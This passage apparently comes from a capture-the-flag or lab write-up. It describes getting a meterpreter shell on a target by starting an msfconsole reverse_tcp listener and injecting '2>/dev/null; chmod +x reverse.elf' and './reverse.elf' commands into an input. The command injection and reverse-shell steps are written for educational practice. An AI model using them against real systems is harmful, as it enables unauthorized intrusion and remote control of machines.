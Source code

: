 ![](../assets/images/Screenshot_20240909_200605.png)

And it worked!

Now we just need to start our listener, make reverse.elf executable and run it to get a meterpreter shell.

```bash
# Starting the listener on our attack box
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost XX.XX.XX.10; set lport 4444; exploit"
```
 Making the shell executable with `2>/dev/null; chmod +x reverse.elf` and then execute it with `2>/dev/null; ./reverse.elf`

And there we have our meterpreter session: 
![alt text](../assets/images/Screenshot_20240909_201909.png) ![alt text](../assets/images/Screenshot_20240909_201928.png)
